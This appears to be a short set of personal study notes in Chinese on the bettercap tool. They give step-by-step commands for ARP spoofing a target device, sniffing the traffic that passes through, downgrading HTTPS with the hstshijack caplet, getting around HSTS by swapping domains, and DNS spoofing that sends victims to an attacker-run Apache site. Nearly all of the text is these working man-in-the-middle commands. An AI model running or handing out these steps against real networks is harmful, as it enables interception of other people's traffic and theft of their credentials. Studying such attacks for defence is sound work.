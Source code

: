 修改選項
```
set (options) true
```
找尋使用模塊的指令
```
help (model)
```
>如果只用help可以顯示出已啟用model及可用model

實例(arp spoofing)
```
set arp.spoof.duplex true
```
>同時多工
```
set arp.spoof.target (be spoofed device mac address)
```
```
arp.spoof on
```
>以上是ARP spoofing
```
net.sinff on
```
>所有經過電腦的資訊會被捕捉與分析，但是無法繞過https
關於http與https部分可以去參考我的basic networ的meida

繞過https
```
set net.sniff local true
```
>因為bettercap會認為我是linux主機給的密碼，所以不會顯示在螢幕上

caplets tools
```
caplets.show
```
>列出可以執行的caplet
```
hstshijack/hstshijack
```
>可以把它從https降級成http

繞過hsts，由facebook, twitter等使用
>因為hsts會從頭到尾執行https，並無法降級，所以只能變更域名，讓他變成http的網站
```
要安裝文件hstshijack
```

DNS spoofing (hsts不適用)
>DNS : 將域名轉成ip
```
service apache2 start
```
>開啟網頁sever，網頁會在/var/www/html
```
set dns.spoof.all true
```
>開啟所有dns嗅探
```
set dns.spoof.domain (要被導向的網站ip或域名)*(前面的子網域或其他網域)
```
>這邊可將網站導成我們的ip address上的apache2建立的website sever
```
dns.spoof on
```
